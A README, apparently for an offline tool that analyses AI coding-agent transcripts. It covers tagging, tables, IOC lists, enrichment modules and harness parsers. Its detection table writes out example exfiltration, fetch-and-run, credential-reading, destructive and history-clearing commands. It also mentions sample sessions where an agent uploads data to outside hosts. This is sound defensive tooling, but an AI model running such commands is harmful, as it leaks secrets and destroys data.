

### Tagging and comments

Sessions, turns (messages, thoughts, tool calls and results) and terms
(extracted entities) can each carry tags and an analyst comment.

- **Tags**: **bad**, **suspicious**, **seen** and **ignore** are built in; add
  your own with **+** in the Tags panel (e.g. `escalated`).
- **Right-click** tags anything: a graph node, a transcript turn, an
  underlined term, a finding, a conversation in the tree, or a row on the Nodes
  or Timeline page. The menu has tag checkboxes and a comment box.
- **The selection card** (and each page's detail pane) has one-click tag
  checkboxes and a comment field that saves when you leave it.
- **What you see**:
  - Tagged nodes carry coloured dots in the graph.
  - Tagged turns show their tags and comment in the transcript.
  - A turn inherits its session's tags, drawn outlined on the Nodes page.
- **Filter by tag**: click tag chips in the Tags panel. The graph fades
  everything else, and the Nodes and Timeline pages show only matching rows.
  *Hide ignored* removes `ignore`d items everywhere.
- **Bulk tagging**: tick rows on the Nodes or Timeline page and use the tag bar,
  or right-click the selection.
- **Storage**: tags and comments are saved in `annotations.json` in the data
  directory, shared by every open page and tab, and exported with each page's
  CSV.


### Nodes (`/nodes`)

Every node in one table: sessions, turns, tool calls and arguments, thoughts and
extracted terms.

- **Sort** by any column: name, type, findings (worst severity first), tags,
  layer, mentions, links, conversations, host / user, first seen or last seen.
  The *Columns* button hides or shows columns.
- **Filter**
  - The top search matches names, and the text of turns (`/regex/` supported).
  - The side rail filters by host, user, agent, conversation and time window;
    tag chips and *Hide ignored*; tagged, untagged or commented; findings
    severity and category; IOC / keyword lists; layers; node types (shift-click
    for "only this type"); and a minimum mention count for terms.
- **Tag**
  - Right-click a row to tag it or comment on it.
  - Check rows (shift-click for a range, or use the header box for the whole
    page, then *Select all*) and use the bulk tag bar, or right-click the
    selection. Its chips show whether all, some or none of the rows carry
    each tag.
  - Tags a turn inherits from its session are drawn outlined.
- **Detail pane**: click a row to see its findings, tags and comment, linked
  nodes and every paragraph it appears in, with the word highlighted.
  Double-click, <kbd>Enter</kbd> or *Show in graph* reveals it in the graph,
  reusing an open graph tab.
- **Keys**: <kbd>↑</kbd>/<kbd>↓</kbd> (or <kbd>j</kbd>/<kbd>k</kbd>) move
  through the rows, <kbd>Space</kbd> checks one, <kbd>←</kbd>/<kbd>→</kbd>
  page, <kbd>/</kbd> searches.
- **CSV export** of the filtered rows.


### Timeline (`/timeline`)

Every tagged session, turn and term, plus the security findings, in time order,
row by row and grouped by day.

- **Filter** by row kind (sessions / turns / terms / findings), by the shared
  scope, time window and tag filters, by comments only, and by findings
  severity and category. Sort oldest or newest first.
- **Tag** single rows or many at once, the same way as on the Nodes page.
- **Detail pane**: a finding's `source → action → sink` chain, the turn's tags
  and comment, and the turn in context, with adjustable **# before / # after**.
- **CSV export**, including the chain for each finding.


Filtered to the analyst's decisions: turns and sessions tagged *bad* or
*escalated*, across a Claude Code dev box, an OpenClaw home server and a CI
runner, newest first:



## Security analysis

Signals are structural and deterministic (`nlp/security.py`). The code reasons about
where data moves rather than shipping a list of named tools:

| Signal | Example | Severity |
|---|---|---|
| **Outbound / exfiltration**: local data, a secret or bulk query output sent to a URL, domain, IP, host or bucket | `cat /etc/shadow \| curl -X POST --data-binary @- https://x.example`, `curl -T backup.tar.gz https://…`, `curl -F 'file=@app.log' https://…`, `aws s3 cp dump.sql s3://…`, `scp .env ops@203.0.113.9:`, `pg_dump db \| curl -T - …` | high, or critical when a secret is involved |
| **Inbound download** to disk | `curl https://… -o /tmp/tool.sh` | medium |
| **Fetch-and-run** | `curl https://…/x.sh \| sudo bash` | high |
| **Exposed secret** in a message, argument or tool output (shown redacted) | private-key headers, cloud keys, tokens, `password=` | medium to critical |
| **Sensitive resource access** | `/etc/shadow`, `~/.ssh/id_rsa`, `.aws/credentials`, `.env` | high |
| **Destructive / data loss** | `rm -rf`, disk overwrite, `DROP TABLE`, recursive bucket delete, force push | medium to critical |
| **Log / history clearing** | `history -c`, truncating `/var/log/*` | high |
| **Watchlist** | your own patterns (Settings → Modules → Security analysis) | you choose |
| **IOC / keyword list hit** | an entry of one of your lists (see below); indicators and keywords are separate categories | the entry's severity, or the list default |

Only the command itself is analysed. Several things are treated as data and
ignored, which keeps coding-agent logs quiet:
- here-document bodies fed to a non-shell program (the Python script in
  `python - <<EOF`);
- file contents written by `Write`/`Edit`-style tools;
- tool descriptions;
- upload flags on programs that aren't HTTP clients (`grep -F`, `cut -d`).

Localhost, `/dev/null`, plain fetches without a write, and
`curl … | python -c '…'` (stdin is data, not code) are ignored too.

Each finding records the conversation, turn and the entities involved; chains
become `dataflow` edges in the graph. The samples that show most signals are:
- the data-loss sample (`ci-runner-3/jordan`);
- the Claude Code session that uploads a log to a paste site
  (`devbox-02/priya`);
- the OpenClaw group chat where a channel member steers the agent into
  uploading a backup (`home-server/max`).

Analyst tags and comments are stored in `annotations.json` in the data
directory (`GET/PUT/DELETE /api/annotations`, `POST/DELETE /api/tags`, JSON
export).

### IOC and keyword lists

Settings → Modules → **IOC & keyword lists**: switch the module on, then drop
list files on it (or name server-side files and globs for lists you'd rather
not upload). Each list can be switched off or deleted on its own.

- **Plain text**: one value per line, `#` comments.
- **CSV / TSV** with a header: a `value` column (`indicator`, `ioc`,
  `keyword`, … also work) plus optional `type`, `label` and `severity`.
- `.gz` files are read directly. Millions of lines are fine.

Every entry is normalised and typed: IPv4, CIDR range, domain, URL, email,
hash, path or keyword (anything else, including multi-word phrases).
Transcript text is refanged first, so `hxxp://bad[.]example` matches.
A listed domain also matches its subdomains (a setting).

Matching doesn't scan text once per indicator. The `ioc_tokens` step cuts every paragraph
into the tokens an entry could equal (URLs and their hosts, emails and their
domains, IPs, hashes, paths, parent domains, word n-grams up to 4 words). The
lists are bulk-loaded into DuckDB, and one hash join plus a range join for CIDR
blocks finds every hit. A 1-million-entry list matches a
20,000-paragraph corpus in about 3 seconds, including loading the list.

Hits label the entities they overlap: the entity gets a list-label chip on its
node, in the Nodes table (with a *Lists* filter) and in the node details. A
listed keyword that no other module picked up becomes an entity of its own.
Labelled entities stay in the graph whatever their mention count, and every
hit raises a security finding with the entry's severity (a setting).

## How it works (no LLM anywhere)

```
zip ─► ingest ─► harness parser ─► Conversation ─► segment ─► enrichment modules ─► networkx graph ─► UI / pyvis
        (path → host/user/harness)   (models.py)     (turns +     (per paragraph, in parallel,
                                                     paragraphs)   stored in DuckDB)
```

Processing runs in four stages, and each change redoes only what it affects:

| Stage | Does | Runs again when |
|---|---|---|
| **ingest** | parses each uploaded zip into conversations (stored as JSON) | a zip is added or removed (only that zip) |
| **segment** | splits conversations into turns and paragraphs | new conversations, or a *segment* setting changes |
| **enrich** | runs the enabled modules | new paragraphs (only those), or a module's options change (that module and its dependants) |
| **graph** | builds the graph from the stored results | always; it takes a moment |

1. **Harness parsers** (`src/synthsift/harnesses/`) turn each native format into
   pydantic models: `Conversation → Message(role) → Block(text | thinking | tool_call | tool_result)`.
2. **Segmentation** (`segment.py`) flattens a conversation into *events*: user
   turns, LLM replies, thoughts, individual tool calls and tool results. Each
   event is split into *paragraphs*, which are what the transcript panel shows
   and search highlights. Each tool argument gets its own paragraph, and fenced
   code is kept whole.
3. **Enrichment modules** (`modules/`, see the table below). Entity extraction
   is spread over several modules whose candidates the *entity resolver* merges.
   Earlier sources win when spans overlap:
   1. *Regex patterns*: URLs, e-mails, IPv4/6 (+port/CIDR), MACs, file paths
      (Unix, Windows, relative, bare filenames), domains, hashes, UUIDs, CVEs,
      AWS ARNs and regions, versions, dates, error types, env vars and
      constants, inline code, identifiers, @mentions, #tags, hex colours,
      coordinates, plus your own patterns.
   2. *Vocabularies*: your custom terms, then built-in lists (software and
      infrastructure, AI models, vehicle makes and models, cooking terms, …).
      Ambiguous words only match when capitalised ("Rust" the language, not
      rust on a wheel arch).
   3. *spaCy NER*: people, organisations, places, products, events, dates, money, …
   4. *Noun phrases* get a category from a WordNet hypernym lexicon shipped in
      the package (`garlic → food`, `sedan → vehicle`, `surgeon → role`,
      `torque wrench → tool`). Anything left over becomes a *concept*.
      Technical nouns ("client", "session", "fixture") are re-classed as
      software inside technical conversations.
   5. *Relations*: a dependency parse yields subject –verb→ object triples
      between entities. When the speaker acts ("read /etc/hosts"), the verb
      labels the message → entity edge.

   6. *IOC / keyword lists* don't claim text. They label whatever entity they
      overlap (see [IOC and keyword lists](#ioc-and-keyword-lists)).

   Tool results and code blocks get pattern-level analysis by default (fast,
   low noise). Settings can switch on full NLP for them.
4. **Graph** (`graph/builder.py`):

   | Node | Meaning | Layer |
   |---|---|---|
   | conversation, user, assistant (LLM), system | the dialogue | dialogue |
   | thought | a reasoning block | thought |
   | tool_call (one per call), tool_arg (one per argument), tool_result | actions | action |
   | entity (category = file_path, ip, person, food, vehicle, …) | extracted objects | entity, or *thought* when only ever mentioned while thinking |

   Edges: `flow` (conversation order), `thinks` / `leads_to` (thought → next
   action), `arg`, `returns`, `mention` (event → entity, labelled with the
   verb), `relation` (entity → entity, verb label), `alias` (path variants of
   one file), and optional `cooccurs` and tool hubs.
   Entities are shared across conversations by default, which is what links
   separate sessions together.

### Modules

| Module | Kind | Scope | Tables | What it stores |
|---|---|---|---|---|
| Pattern extractors (`regex`) | extraction | paragraph | `x_regex` | regex matches as entity candidates |
| spaCy NLP (`nlp`) | extraction | paragraph | `x_nlp`, `x_nlp_sents`, `x_nlp_svo` | vocabulary, NER and noun-phrase candidates; sentences; verb structure |
| IOC & keyword lists (`ioc`, helper `ioc_tokens`) | extraction | corpus | `x_ioc`, `x_ioc_hits`, `x_ioc_tokens` | list hits (as entity labels) and their entries |
| Entity resolver (`entities`, always on) | extraction | paragraph | `x_entities`, `x_relations` | the entities and relations the graph shows |
| Text statistics (`text_stats`) | feature | paragraph | `f_text_stats` | length, words, lines, character mix, entropy, URL count |
| Content type (`content_type`) | label | paragraph | `l_content_type` | prose / code / command / JSON / log / stack trace / diff / table, plus a *secret-like* flag |
| Security analysis (`security`) | analysis | corpus | `a_findings` | the security findings |

Settings → **Modules** has a card per module: an on/off switch, its options,
which modules it runs after, its tables with row counts and a CSV download, how
many paragraphs it has processed and how long the last run took. The **{ }**
button on every turn in the transcript shows what each module stored for its
paragraphs.

<table>
<tr>
<td width="50%"><b>Modules in Settings</b>: switch, options, tables, progress<br></td>
<td width="50%"><b>IOC and keyword lists</b>: upload, switch off, delete<br></td>
</tr>
<tr>
<td><b>Loading screen</b>: every stage and module, live<br></td>
<td><b>Inspect a turn</b>: every module's rows for its paragraphs<br></td>
</tr>
</table>

**How modules run** (`modules/runner.py`):
- **In dependency order.** A module starts as soon as the modules it reads
  have finished, so independent modules run side by side.
- **Incrementally.** Rows are keyed by the paragraph's content hash, and each
  module records which paragraphs it has processed (`module_done`), so it only
  ever sees new ones.
- **With fingerprints.** Each module has a fingerprint: its version, its
  options, its dependencies' fingerprints and, for lists, the files' sizes and
  times. When the fingerprint changes, the module's tables are rebuilt.
- **In parallel.** Large batches (Settings → Processing) are cut into chunks
  and run in worker processes. Each chunk's rows commit together with its
  *done* markers, so an interrupted run resumes where it stopped.

**The database** is an ordinary DuckDB file, so you can query it directly (with
the app stopped, since only one process can open it for writing):

```bash
uv run python - <<'EOF'
import duckdb
con = duckdb.connect(".synthsift/synthsift.duckdb", read_only=True)
print(con.sql("""SELECT p.conv, l.label, count(*) FROM paragraphs p
                 JOIN l_content_type l ON l.para_hash = p.hash GROUP BY ALL ORDER BY 3 DESC LIMIT 10"""))
EOF
```

Core tables: `datasets`, `conversations`, `events`, `paragraphs` (id,
conversation, turn, `hash`), `para_text` (one row per distinct content) and
`module_done`. Storage goes through a small interface (`db/base.py`), so another
backend can be added next to `db/duckdb_store.py`.

## Writing an enrichment module

Drop a file into `src/synthsift/modules/`. Every module in that package is
imported automatically, and its card, switch and options appear on the Settings
page:

```python
"""Counts question marks – a toy feature module."""

from ..db import table
from ..fields import Field
from .base import Module, register


@register
class QuestionsModule(Module):
    name = "questions"                # also the settings switch: "mod.questions"
    label = "Questions"
    description = "How many questions each paragraph asks."
    kind = "feature"                  # extraction | feature | label | analysis
    version = "1"                     # bump when the same input gives different output
    tables = (table("f_questions", "para_hash", ("questions", "int"), ("asks_user", "bool"),
                    description="Question count per paragraph"),)
    options = (
        Field("questions_min", "Count from", "int", 1, "parse", "", "Ignore paragraphs with fewer.", min=1, max=10),
    )

    def process(self, paras, deps):   # runs on chunks of new paragraphs, possibly in worker processes
        low = int(self.opt("questions_min", 1))
        rows = []
        for p in paras:               # p.hash, p.text, p.role, p.code, p.arg
            n = p.text.count("?")
            if n >= low:
                rows.append((p.hash, n, p.role == "assistant"))
        return {"f_questions": rows}
```

- **Rows** are tuples in column order with `para_hash` first. The runner
  writes them, records the paragraphs as processed and never shows the
  module those paragraphs again.
- **`requires = ("nlp",)`** runs the module after `nlp`. `process()` then gets
  that module's rows for the chunk as `deps.dicts("x_nlp_svo", p.hash)`.
  Override `dependencies(enabled)` when what you need depends on which
  modules are on.
- **Entity candidates**: declare `span_table = "x_mine"` with
  `tables = (span_table("x_mine"),)` and emit `(para_hash, start, end, text,
  category, source, key_hint, literal, prio, ord, alt_group, alt_rank, labels)`.
  The resolver merges them with the other modules' candidates. A lower `prio`
  claims text first (regex 10, vocabularies 20–22, NER 30, noun phrases 40).
  With `span_mode = "label"` the rows label what they overlap instead.
- **Whole-corpus work** (joins, cross-paragraph analysis): set
  `scope = "corpus"` and implement `run_corpus(ctx)`. Use `ctx.storage` for
  SQL, `ctx.corpus()` for conversations, turns, paragraphs and entities (set
  `needs_corpus = True`), and `ctx.progress()` / `ctx.note()` to report back.
- **`setup()`** loads models once per process. `fingerprint_extra(ctx)` adds
  outside state, such as files, to the fingerprint.
- **To see entities for a few strings**, `synthsift.modules.runner.analyze([(id, text,
  role, is_code), …], {settings})` runs the enabled modules in a throwaway in-memory
  database and returns the mentions and relations per id.
- **To try it out**, run it against an in-memory database and inspect the
  tables:

```python
from synthsift.db import open_storage
from synthsift.modules.runner import Runner
from synthsift.settings import defaults
st = open_storage(None)                       # in-memory DuckDB
# … insert rows into para_text (see tests/test_modules.py), then:
print(Runner(st, {**defaults(), "mod.questions": True}).run()["steps"])
print(st.query("SELECT * FROM f_questions LIMIT 5"))
```

## Adding a harness

Create `src/synthsift/harnesses/<name>.py`. Every module in that package is
imported automatically:

```python
from ..models import Block, Conversation, Message
from .base import HarnessParser, register


@register
class MyAgentParser(HarnessParser):
    name = "myagent"                 # zip folder name
    aliases = ("my-agent",)
    label = "My Agent"
    subagent_tools = ("delegate",)   # optional: tools whose calls start a sub-agent (dashboard)

    def parse(self, raw: bytes, filename: str) -> list[Conversation]:
        rows = self.load_jsonl(raw)
        msgs = []
        for r in rows:
            if r["kind"] == "prompt":
                msgs.append(Message(role="user", blocks=[Block.text_block(r["text"])]))
            elif r["kind"] == "step":
                msgs.append(Message(role="assistant", blocks=[
                    Block.thinking(r.get("plan", "")),
                    Block.tool_call(r["tool"], r["args"], r["id"]),
                ]))
            elif r["kind"] == "observation":
                msgs.append(Message(role="tool", blocks=[Block.tool_result(r["output"], r["id"])]))
        return [Conversation(messages=msgs)]

    def sniff(self, raw: bytes, filename: str) -> float:   # optional
        return 0.9 if b'"kind": "prompt"' in raw[:2000] else 0.0
```

`example.py` is the simplest complete implementation. It also reads OpenAI
chat-completions logs and Anthropic Messages logs, so it's a good base to copy.
`claude_code.py` (JSONL rows) and `openclaw.py` (JSONL events, zstd archives
and SQLite) are full real-world parsers. Their module docstrings describe each
native format.

`gemini.py`, `antigravity.py` and `hermes.py` are registered placeholders:
files in those folders are skipped with a warning until the parser is written.

The base class also gives parsers:
- `read_jsonl()`: tolerant of a cut-off last line.
- `decompress()`: for `.zst` and `.gz` files.
- `iso_time()`: converts epoch seconds or milliseconds to ISO time.
- `self.companions`: sibling files from the upload, such as a SQLite `-wal`.
- `self.warnings`: for messages shown to the user.

### The example format

```json
{
  "format": "synthsift.example/v1",
  "title": "Optional title",
  "messages": [
    {"role": "user", "content": "Read /etc/hosts please"},
    {"role": "assistant", "content": [
      {"type": "thinking", "text": "I should use read_file."},
      {"type": "tool_call", "id": "c1", "name": "read_file", "arguments": {"path": "/etc/hosts"}}
    ]},
    {"role": "tool", "tool_call_id": "c1", "content": "127.0.0.1 localhost"},
    {"role": "assistant", "content": "It maps localhost to 127.0.0.1."}
  ]
}
```

Also accepted: `{"conversations": [...]}`, a bare list of messages, and JSONL.
See `samples/transcripts/` for complete examples.

## Better entity recognition

The bundled `en_core_web_sm` model is fast but makes mistakes. Install a larger
model and select it under Settings → Modules → spaCy NLP → spaCy model:

```bash
uv pip install https://github.com/explosion/spacy-models/releases/download/en_core_web_md-3.8.0/en_core_web_md-3.8.0-py3-none-any.whl
# or en_core_web_lg / en_core_web_trf
```

## Development

```bash
uv run pytest                                  # tests
uv run python scripts/generate_samples.py      # rebuild samples/ (short + very long fake transcripts)
uv run python scripts/build_lexicon.py         # rebuild the WordNet category lexicon
uv run python scripts/update_icon_font.py      # re-subset Material Symbols after adding icons to the UI
```

The front end is plain HTML/CSS/JS in `src/synthsift/static/`, with no build
step. Fonts (Roboto, Roboto Mono, Material Symbols) and vis-network are served
locally, so the app works offline.

## Credits & licences

* WordNet 3.0 © Princeton University. The category lexicon in
  `src/synthsift/nlp/data/` is derived from it (see `WORDNET_LICENSE.txt`).
* Roboto and Roboto Mono (SIL OFL 1.1), Material Symbols (Apache 2.0), vendored
  from Google Fonts.
* vis-network is served from the pyvis package.
